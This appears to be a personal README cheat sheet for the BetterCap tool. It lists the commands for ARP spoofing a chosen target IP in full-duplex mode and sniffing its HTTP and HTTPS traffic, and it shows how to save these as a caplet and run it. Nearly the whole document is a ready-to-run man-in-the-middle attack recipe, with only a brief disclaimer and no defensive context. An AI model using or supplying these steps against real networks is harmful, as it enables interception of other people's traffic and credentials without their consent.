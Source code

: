 # BetterCap

<p align="center">
  <img alt="BetterCap" src="https://raw.githubusercontent.com/bettercap/media/master/logo.png" height="140" />

## To start with the program

Firstally install the bettercap if not installed yet. To check write the bettercap hepl command *bettercap --help*
</br>Then to start the bettercap with the below command.
<p align="center">
  bettercap iface <b>name_of_interface</b>
</p>

## spoof.cap - http://

net.probe on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>net.sniff on

## spoof.cap - https://

net.probe on
</br>net.recon on
</br>set arp.spoof.fullduplex true
</br>set arp.spoof.target **target IP**
</br>arp.spoof on
</br>set net.sniff.local true
</br>net.sniff on

## bettercap caplet

Copy the commands from <b>spoof.cap</b>, then edit it with the <b>target_IP</b> and save it in some directory with name "<i><b>spoof.cap</b></i>". Now, move to the particular directory and run the command below:
<p align="center"></br>bettercap -iface <b>name_of_interface</b> -caplet spoof.cap</p>

## Decleration

<p align="center">
  <i>I do not own this program/software/script. Neither I have the license to distributr/sell. This is for self understanding/remembering and easy access across systems for myself.</i>
</p>
